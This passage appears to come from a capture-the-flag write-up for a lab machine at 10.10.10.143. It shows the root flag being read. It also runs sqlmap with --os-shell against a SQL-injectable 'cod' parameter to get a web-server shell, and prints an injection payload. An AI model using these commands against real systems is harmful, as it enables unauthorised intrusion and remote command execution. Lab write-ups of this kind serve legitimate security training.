 ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:9b:05 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9b05/64 scope global mngtmpaddr dynamic 
       valid_lft 86325sec preferred_lft 14325sec
    inet6 fe80::250:56ff:feb9:9b05/64 scope link 
       valid_lft forever preferred_lft forever
{% endhighlight %}

root.txt is in the directory "/root".
{% highlight shell %}
ls -l /root
total 16
-rwxr--r-- 1 root root   42 Mar  4  2019 clean.sh
-r-------- 1 root root   33 Mar  5  2019 root.txt
-rwxr-xr-x 1 root root 5271 Mar  5  2019 sqli_defender.py
cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
{% endhighlight %}

### 4. Another way to get www-data shell

We have SQL injection here.<br>
For this machine, we can use it to achieve a user shell.<br>

#### 4.1 --os-shell way

A way that we use SQLmap with "--os-shell" parameter
{% highlight shell %}
root@kali:~# sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent --os-shell
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.10#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:22:26 /2019-11-10/

[19:22:26] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/532.0 (KHTML, like Gecko) Chrome/3.0.195.1 Safari/532.0' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[19:22:26] [INFO] resuming back-end DBMS 'mysql' 
[19:22:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 3862=3862
